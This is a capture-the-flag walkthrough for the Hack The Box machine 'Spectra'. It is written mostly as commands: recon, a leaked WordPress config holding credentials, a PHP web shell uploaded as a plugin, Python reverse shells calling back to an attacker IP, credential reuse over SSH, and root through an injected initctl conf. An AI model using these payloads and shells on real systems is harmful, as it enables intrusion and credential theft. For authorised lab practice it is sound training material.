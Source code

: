 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.229
nmap -p 22,80,3306 -sCV -oA scans/nmap-tcpscripts 10.10.10.229
```

---

## 🔗 Enumerate [WordPress](HTTP.md)
```bash
# Look for .save file
curl http://spectra.htb/testing/wp-config.php.save

# Credentials found:
DB_USER=devtest
DB_PASS=devteam01

# Try login
wpscan --url http://spectra.htb/main -e ap,t,tt,u --api-token <your-token>
```

---

## 👤 WP Admin Login
```bash
# Username: administrator
# Password: devteam01
```

---

## 📂 Webshell via Plugin (Option A)
```php
# Create kill.php with:
<?php system($_REQUEST["0xdf"]); ?>

# Zip it:
zip infinit3i-plug.zip kill.php

# Upload via WP Admin ➝ Plugins ➝ Upload Plugin

# Access shell:
curl http://spectra.htb/main/wp-content/plugins/infinit3i-plug/kill.php?0xdf=id
```

---

## 🚧 Reverse Shell (from WP Webshell)

##### Listener
```bash
nc -lnvp 6666
```
#### Payload

```bash
curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/infinit3i.php \
  --data-urlencode "0xdf=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.3\",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```

---

## 🔎 Lateral Movement (Find creds)
```bash
cat /etc/lsb-release
cat /etc/autologin/passwd  # => SummerHereWeCome!!
```

---

## 🔐 [SSH](SSH) as Katie
```bash
sshpass -p 'SummerHereWeCome!!' ssh katie@10.10.10.229
```

---

## 🔒 Root Escalation
```bash
# Sudo permissions
sudo -l
# ➝ /sbin/initctl

# Editable conf:
ls /etc/init/*.conf  # choose test.conf or make your own

# Add to script block:
exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Start service:
sudo initctl start test
```

---

## ✅ Root Access
```bash
cat /root/root.txt
```

---

## 📑 Resources
- https://book.hacktricks.xyz/pentesting/wordpress
- https://gtfobins.github.io/gtfobins/initctl/
- https://github.com/offensive-security/exploitdb-bin-sploits/blob/master/bin-sploits/44449.rb

Let me know if you want a visual breakdown or plugin-based method only ✨


